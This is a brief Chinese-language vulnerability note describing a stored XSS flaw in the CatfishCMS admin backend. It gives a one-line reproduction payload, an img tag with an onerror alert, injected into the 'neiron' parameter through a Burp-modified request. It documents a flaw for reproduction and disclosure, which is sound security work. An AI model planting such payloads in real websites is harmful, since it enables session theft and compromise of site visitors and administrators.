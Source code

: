```yaml
---
title: CatfishCMS后台储存型xss
id: zhfly2836
---
```


# CatfishCMS后台储存型xss

## 一、漏洞简介

网站背景中的管理员可以发布包含存储XSS漏洞的文章 提交标题以抓取数据包 使用burp修改参数 浏览文章可以触发XSS

## 二、漏洞影响

## 三、复现过程

![image](../img/4e9aeab11c061a75227b586ba13ce1fb.png)

```
neiron=<img src=x onerror=alert(123)> 
```

![image](../img/f27f8e552fcc0947552d7cc6c877ea3d.png)

![image](../img/7ce226c7ea2d4a25fc85ea6af103898c.png)